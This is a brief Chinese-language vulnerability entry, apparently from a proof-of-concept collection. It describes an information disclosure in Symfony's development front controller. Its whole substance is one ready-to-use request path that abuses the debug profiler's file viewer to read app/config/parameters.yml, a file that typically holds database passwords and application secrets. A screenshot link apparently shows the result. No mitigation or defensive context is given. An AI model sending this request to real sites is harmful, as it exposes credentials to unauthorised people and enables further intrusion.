 ## Symfony-app_dev.php信息泄露漏洞

Sensio Labs Symfony是法国Sensio Labs公司的一套免费的、基于MVC架构的PHP开发框架。该框架提供常用的功能组件及工具，可用于快速创建复杂的WEB程序。

## poc

```
/app_dev.php/_profiler/open?file=app/config/parameters.yml
```

![image-20240603090612812](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406030906924.png)